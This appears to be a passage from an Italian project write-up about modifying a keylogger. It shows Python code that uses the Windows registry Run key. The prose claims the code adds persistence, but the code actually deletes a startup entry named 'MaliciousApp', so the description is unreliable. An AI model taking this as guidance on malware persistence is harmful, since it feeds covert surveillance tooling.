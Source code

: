 
## Modifiche al keylogger

Questa parte del codice permette di ottenere persistence contro il riavvio o lo spegnimento del compoter, l'ho programmata con l'aiuto di BlackBox AI [[10]](https://www.blackbox.ai/). Questa parte del codice è funzionante

```python
import os
import winreg as reg

def remove_from_startup():
    try:
        # Definisci la chiave di registro da rimuovere
        key = reg.HKEY_CURRENT_USER
        key_value = "Software\\Microsoft\\Windows\\CurrentVersion\\Run"
        key_name = "MaliciousApp"
        
        # Apri la chiave di registro
        with reg.OpenKey(key, key_value, 0, reg.KEY_ALL_ACCESS) as open_key:
            # Elimina la chiave di registro
            reg.DeleteValue(open_key, key_name)
        
        print("Chiave di registro rimossa con successo.")
    
    except FileNotFoundError:
        print("Chiave di registro non trovata.")
    except Exception as e:
        print(f"Errore: {e}")

if __name__ == "__main__":
    remove_from_startup()
```